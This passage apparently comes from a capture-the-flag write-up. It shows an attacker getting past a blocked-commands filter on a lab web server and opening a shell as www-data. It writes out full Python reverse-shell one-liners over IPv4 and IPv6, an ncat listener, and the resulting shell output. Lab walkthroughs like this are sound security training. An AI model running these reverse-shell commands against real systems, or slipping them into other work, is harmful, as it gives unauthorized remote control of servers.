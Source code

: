 ```

root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 pwd
/var/www/html

```

### Option #1 - Shell as www-data

As I showed in the previous results, the site is running as www-data. I also remember that python is not on the blocked commands filter, so I will use a python reverse shell. I’ll use my bash one-liner from above, and put in the python shell for the command (remembering to esacape the inner “s):

```

root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

```

On running this, it just hangs, and I don’t get a callback. The fact that it doesn’t die immediately and return suggests to me that my command ran, but that it was unable to connect back to me (firewall?). What about IPv6?

Start my listener on my IPv6 address:

```

root@kali# nc -nv --listen dead:beef:2::100d 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on dead:beef:2::100d:443

```

Now run the python reverse shell command, changing the socket creation to `socket.AF_INET6` and putting in my IPv6 address:

```

root@kali# ./run_command.sh dead:beef::250:56ff:feb2:f978 "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect((\"dead:beef:2::100d\",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

```

And I get a callback:

```

Ncat: Connection from dead:beef::250:56ff:feb2:7cff.
Ncat: Connection from dead:beef::250:56ff:feb2:7cff:48882.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
